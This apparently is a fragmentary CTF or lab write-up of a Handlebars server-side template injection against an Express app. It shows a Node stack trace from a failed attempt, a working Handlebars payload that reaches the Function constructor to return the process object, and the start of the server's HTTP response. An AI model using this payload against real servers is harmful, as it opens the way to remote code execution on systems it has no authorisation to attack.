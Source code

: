 ```shell
["ReferenceError: require is not defined","    at Function.eval (eval at <anonymous> (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23)), <anonymous>:3:1)","    at Function.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:10:25)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:5:37)","    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)","    at execIteration (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)","    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:61:13)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:31)","    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)","    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:22:14)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:34)"]
```

- in order to stop getting the error the following code needs to be decoded and sent to the repeater
```shell
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- After correcting the payload we no longer get and errors and can sse that the payload expects a process 
```html 

HTTP/1.1 200 OK

X-Powered-By: Express

Content-Type: text/html; charset=utf-8

Content-Length: 1237

ETag: W/"4d5-twHNJDnkmF/i2zkQyUWyNUdvbIQ"

Date: Wed, 29 Mar 2023 14:26:03 GMT

Connection: close



<!DOCTYPE html>
<html lang="en">

<head>
```